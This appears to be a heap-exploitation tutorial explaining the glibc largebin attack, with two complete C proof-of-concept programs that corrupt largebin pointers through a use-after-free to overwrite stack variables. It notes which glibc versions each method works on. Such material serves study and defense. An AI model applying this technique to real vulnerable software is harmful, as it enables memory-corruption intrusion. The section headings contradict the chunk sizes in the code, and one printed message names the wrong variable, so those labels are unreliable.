

The content of this article was previously covered in [unsortedbin attack](), extracted here for a standalone summary.

When a chunk is moved from the unsortedbin to the largebin, there are two exploitation methods that allow modifying arbitrary pointer contents to the chunk's address.

The exploitation requires setting up two chunks: one chunk already in the largebin and one chunk still in the unsortedbin that hasn't been inserted into the largebin yet. I'll refer to these two chunks as `p2` and `p3` respectively. To ensure `p3` is inserted into the same largebin as `p2`, their sizes must vary within the same largebin range. Depending on the relative sizes of the two chunks, different exploitation effects can be achieved:

- `p2` smaller than `p3`: can modify one pointer to `p3`'s address
- `p2` larger than `p3`: can simultaneously modify two pointers to `p3`'s address
- `p2` and `p3` same size: not exploitable

The exploitation also requires a UAF vulnerability. The following examples demonstrate both exploitation scenarios.

**Exploitation 1: `p2` smaller than `p3`**

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    unsigned long stack_var1 = 0;
    printf("&stack_var1 = %p\n", &stack_var1);
    printf("stack_var1 = %d\n", stack_var1);

    printf("Pre-call printf to avoid any subsequent impact on the layout of the chunk.\n\n");

    // Allocate a large chunk p1, we connot use small chunk due to the influence of tcache.
    char *p1 = (char *)malloc(0x420);
    printf("p1 chunk address:\t\t%p\n", p1 - 0x10);
    // Avoid to consolidating the p1 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a large chunk p2 to avoid tcache interference.
    char *p2 = (char *)malloc(0x460);
    printf("p2 chunk address:\t\t%p\n", p2 - 0x10);
    // Avoid to consolidating the p2 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a chunk p3 with a size smaller than p2 chunk.
    // The objective is to generate an unsorted chunk whose size is smaller than the other chunks present in the largebin.
    char *p3 = (char *)malloc(0x440);
    printf("p3 chunk address:\t\t%p\n\n", p3 - 0x10);
    // Avoid to consolidating the p3 chunk with the other chunk during the free().
    malloc(0x20);

    // Free p1 and p2 chunk to unsortedbin
    // asm("int3");
    printf("Free p1 and p2 chunk to unsortedbin.\n");
    free(p1);
    free(p2);

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:
    //      1. Use p1 to avoid splitting the p2 chunk. The remaining part after the 
    //          split will be placed back into the unsorted bin.
    //      2. to move p2 chunk to largebin
    printf("Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:\n\t1. Use p1 to avoid splitting the p2 chunk. The remaining part after the \n\t\tsplit will be placed back into the unsorted bin.\n\t2. to move p2 chunk to largebin\n");
    char * partOfP1 = (char *)malloc(0x20);
    printf("\tpartOfP1:\t\t\t%p\n", partOfP1 - 0x10);
    printf("\tpartOfP1 == p1:\t\t\t%s\n", partOfP1 == p1 ? "true" : "false");

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    // Free p3 chunk to unsortedbin
    printf("Free p3 chunk to unsortedbin.\n");
    free(p3);
    printf("\tp3 chunk link: \t\t\t[%p <==> %p(p3) <==> %p]\n", *((char **)(p3 + 0x8)), p3 - 0x10, *((char **)(p3)));
    printf("\tp3 chunk nextsize link:\t\t[%p <==> %p(p3) <==> %p]\n\n", *((char **)(p3 + 0x18)), p3 - 0x10, *((char **)(p3 + 0x10)));

    // asm("int3");

    // Change the bk_nextsize of the largest chunk p2 to (&stack_var1 - 0x20).
    printf("Change the bk_nextsize of the largest chunk p2 to (&stack_var1 - 0x20).\n");
    *(unsigned long *)(p2 + 0x18) = (unsigned long)&stack_var1 - 0x20;
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    printf("Call malloc to move p3 to large bin, make *(p2->bk_nextsize + 0x20) == stack_var1 == p3\n");
    malloc(0x20);
    printf("\tstack_var1 = %p\n", (char *)stack_var1);
    // asm("int3");
    exit(0);
}
```

Using glibc version 2.27, the result is as follows:


This example sets up 3 chunks:

- `p1` is used as a separator to prevent chunk consolidation during intermediate `malloc` calls
- `p2` later becomes the smallest chunk in the largebin, and due to the UAF vulnerability it's controllable, meaning `fwd->fd` is controllable
- `p3` is later placed into the unsortedbin, and on the next `malloc` call it will be categorized into the same largebin as `p2`, with the unsorted chunk size being smaller than the smallest chunk in the largebin

After using UAF to modify `p2->bk_nextsize` to `&stack_var1 - 0x20`, calling `malloc` triggers unsortedbin categorization which writes the unsorted `p3` address to `fwd->fd->bk_nextsize + 0x20`, and `stack_var1` is ultimately changed to `p3`'s address.

Tested on a newer version (2.39-0ubuntu8.3) and it still works.

**Exploitation 2: `p2` larger than `p3`**

With slight modifications to the previous code, we get the second scenario:

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;
    printf("&stack_var1 = %p\n", &stack_var1);
    printf("&stack_var2 = %p\n", &stack_var2);
    printf("stack_var1 = %d\n", stack_var1);
    printf("stack_var2 = %d\n", stack_var2);

    printf("Pre-call printf to avoid any subsequent impact on the layout of the chunk.\n\n");

    // Allocate a large chunk p1, we connot use small chunk due to the influence of tcache.
    char *p1 = (char *)malloc(0x420);
    printf("p1 chunk address:\t\t%p\n", p1 - 0x10);
    // Avoid to consolidating the p1 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a large chunk p2 to avoid tcache interference.
    char *p2 = (char *)malloc(0x440);
    printf("p2 chunk address:\t\t%p\n", p2 - 0x10);
    // Avoid to consolidating the p2 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a chunk p3 with a size larger than p2 chunk.
    // The objective is to generate an unsorted chunk whose size is larger than the other chunks present in the largebin.
    char *p3 = (char *)malloc(0x460);
    printf("p3 chunk address:\t\t%p\n\n", p3 - 0x10);
    // Avoid to consolidating the p3 chunk with the other chunk during the free().
    malloc(0x20);

    // Free p1 and p2 chunk to unsortedbin
    // asm("int3");
    printf("Free p1 and p2 chunk to unsortedbin.\n");
    free(p1);
    free(p2);

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:
    //      1. Use p1 to avoid splitting the p2 chunk. The remaining part after the 
    //          split will be placed back into the unsorted bin.
    //      2. to move p2 chunk to largebin
    printf("Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:\n\t1. Use p1 to avoid splitting the p2 chunk. The remaining part after the \n\t\tsplit will be placed back into the unsorted bin.\n\t2. to move p2 chunk to largebin\n");
    char * partOfP1 = (char *)malloc(0x20);
    printf("\tpartOfP1:\t\t\t%p\n", partOfP1 - 0x10);
    printf("\tpartOfP1 == p1:\t\t\t%s\n", partOfP1 == p1 ? "true" : "false");

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    // Free p3 chunk to unsortedbin
    printf("Free p3 chunk to unsortedbin.\n");
    free(p3);
    printf("\tp3 chunk link: \t\t\t[%p <==> %p(p3) <==> %p]\n", *((char **)(p3 + 0x8)), p3 - 0x10, *((char **)(p3)));
    printf("\tp3 chunk nextsize link:\t\t[%p <==> %p(p3) <==> %p]\n\n", *((char **)(p3 + 0x18)), p3 - 0x10, *((char **)(p3 + 0x10)));

    // asm("int3");

    // Change the bk_nextsize of the large chunk p2 to (&stack_var1 - 0x20).
    printf("Change the bk_nextsize of the large chunk p2 to (&stack_var1 - 0x20).\n");
    *(unsigned long *)(p2 + 0x18) = (unsigned long)&stack_var1 - 0x20;
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));
    printf("Change the bk of the large chunk p2 to (&stack_var1 - 0x10).\n");
    *(unsigned long *)(p2 + 0x8) = (unsigned long)&stack_var2 - 0x10;
    printf("\tp2 chunk link: \t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));

    // asm("int3");

    printf("Call malloc to move p3 to large bin, make *(p2->bk_nextsize + 0x20) == stack_var1 == p3 and *(p2->bk + 0x10) == stack_var2 == p3\n");
    malloc(0x20);
    printf("\tstack_var1 = %p\n", (char *)stack_var1);
    printf("\tstack_var2 = %p\n", (char *)stack_var2);
    // asm("int3");

    exit(0);
}
```

Using glibc 2.27, running it simultaneously modifies `stack_var1` and `stack_var2` to `p3`'s address:



If using a newer version (2.39), this method will fail:


This is because a validation check for `bk_nextsize` and `bk` was added in version 2.30 commit [5b06f53](https://github.com/bminor/glibc/commit/5b06f538c5aee0389ed034f60d90a8884d6d54de):


Therefore, this method is ineffective after 2.30, and only the first method can be used. For compiling programs with different glibc versions, refer to [glibc_all_in_one]().
